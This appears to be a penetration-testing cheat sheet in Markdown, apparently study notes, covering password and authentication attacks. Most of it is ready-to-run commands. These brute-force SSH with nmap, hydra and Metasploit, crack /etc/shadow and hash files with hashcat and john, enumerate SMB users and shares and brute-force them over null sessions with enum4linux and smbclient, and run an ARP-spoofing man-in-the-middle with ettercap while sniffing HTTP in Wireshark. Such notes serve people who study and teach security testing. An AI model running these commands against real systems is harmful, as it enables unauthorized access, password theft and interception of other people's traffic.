 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

#### SSH Bruteforce With Hydra
```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.194.185.3 -f

```

#### SSH Bruteforce With Metasploit
```
scanner/ssh/ssh_login module
```

#### Crack /etc/hashes With hahcat and John
```
/etc/login.defs >> Check Hashing Algorithm

hashcat -m 1800 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt --force

john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt

```

#### nULl Session Attack

> Allows user to connect to network without valid password in windows server.

```
smbclient //10.10.10.10/C$ -N

enum4linux -U 192.168.23.1 >> Enumerate Users

enum4linux -n 192.168.23.1 >> NBT stat

enum4linux -P 192.168.23.1 >> GIVES PASSWORD POLICY ON REMOTE MACHINE

enum4linux -S 192.168.23.1 >> LIST SHARES

enum4linux -s /usr/share/enum4linux/share-list.txt 192.168.23.1  >> Bruteforce Shares

enum4linux -A 192.168.23.1 >> FULL ENUM

sambrdump.py 192.168.23.1 

nmap -script=smb-enum-shares,smb-enum-users,smb-brute 192.168.23.1


```

> Note: Sometime we maynot see shares using enum4linux we can bruteforce the  users and try connecting to respective shares using -N flag.
#### Accessing Public Shares with smbclient

```
smbclient //192.123.28.3/demo
```

#### Check perm across Shares

```
smbmap -H host
```

#### Mitm Attack Using Ettercap
* Enumerate live hosts using nmap.

```
nmap -sn 192.168.3.0/24
```

```
sudo ettercap -T -S -i eth0 -M arp:remote /10.0.0.1// /10.0.0.129//

-T  - text only
-S  - No ssl
-M  - Method
10.10.0.1  - Router
10.0.0.129 - Victim
```
* Start Wireshark with root perm
```
ip.addr == 10.0.0.129 && http

```

